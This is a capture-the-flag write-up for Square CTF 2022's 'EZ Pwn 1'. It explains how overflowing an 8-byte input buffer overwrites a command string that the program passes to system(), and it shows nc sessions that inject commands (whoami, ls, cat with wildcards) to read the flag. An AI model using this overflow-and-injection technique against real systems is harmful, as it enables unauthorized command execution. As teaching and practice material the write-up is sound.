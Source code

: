 # EZ Pwn 1, Pwn, 50pts

Memory safety? Whats that?
Required Reading:
- https://en.wikipedia.org/wiki/Stack_buffer_overflow

## Problem

We are given the source code of C program, which contains buffer overflow error:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>


int main()
{
    char command[16];
    char way_too_small_input_buf[8];
    strcpy(command, "ls");

    puts("Hi! would you like me to ls the current directory?");
    read(0, way_too_small_input_buf, 24);
    if (!strcmp(way_too_small_input_buf, "no\n")) {
        puts("Oh, ok :(");
        exit(0);
    }

    puts("Ok, here ya go!\n");
    system(command);

}
```

Our goal is to get the flag located somewhere on `chals.2022.squarectf.com:4100`

## Solution

From looking at the source code, we can see two `char[]` types being declared.
The first one is a `command` string of 16 characters and the second one is an input controlled by an attacker - a string `way_too_small_input_buf` of 8 characters. The way how they will be put on stack means that if we overfill `way_too_small_input_buf`, it starts to overwrite the content of `command`. Execution of the `system(command)` line gives us an opportunity to run injected commands on the remote machine.

Let's try to see if we can execute our own command then. First 8 characters of our input does not matter as they won't become the part of the `command` variable, so it's just a filler to get us to the beginning of `command` characters array:

```
$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAwhoami
Ok, here ya go!

pwnable_user
```

That seems to work as expected:

- `AAAAAAAA` fills `way_too_small_input_buf` characters array
- then, there is `whoami` command, which overwrites `command` buffer, located next to `way_too_small_input_buf` in memory
- our injected command is then executed

Let's figure out where the flag is:

```$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAls -lRA
Ok, here ya go!

.:
total 28
-rw-r--r-- 1 root pwnable_user  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 root pwnable_user 3771 Jan  6  2022 .bashrc
-rw-r--r-- 1 root pwnable_user  807 Jan  6  2022 .profile
-r-xr-x--- 1 root pwnable_user 8528 Nov  6 21:09 ez-pwn-1
drwxr-xr-x 1 root pwnable_user 4096 Nov  9 04:49 the_flag_is_in_here

./the_flag_is_in_here:
total 4
-r--r----- 1 root pwnable_user 64 Nov  6 21:09 flag.txt
```

We can see the flag file is located in `./the_flag_is_in_here` directory. To display the flag, we need to execute command similar to this one:

```
cat ./the_flag_is_in_here/flag.txt
```

The problem here is that we have only 16 characters to use, because this is the size of `command` characters array used in `system(command);` execution and our payload has 35 characters. We need to shorten it to maximum 16 characters.

To be able to do so, we can use wildcard character (`*`), whcih is going to be expanded by shell. Here's one of the examples:

```
cat ./the*/*.txt
```

In the example above, `the*` is going to be expanded to `the_flag_is_in_here` (because there is no other directory with the name starting with `the`, so there is no ambiguity here) and `*.txt` will expand to `flag.txt`. We can even make it shorter:

```
cat ./t*/*
```

Let's see if this will work:

```
$ nc chals.2022.squarectf.com 4100
Hi! would you like me to ls the current directory?
AAAAAAAAcat ./t*/*
Ok, here ya go!

flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
```

We get the flag and 50 points :)


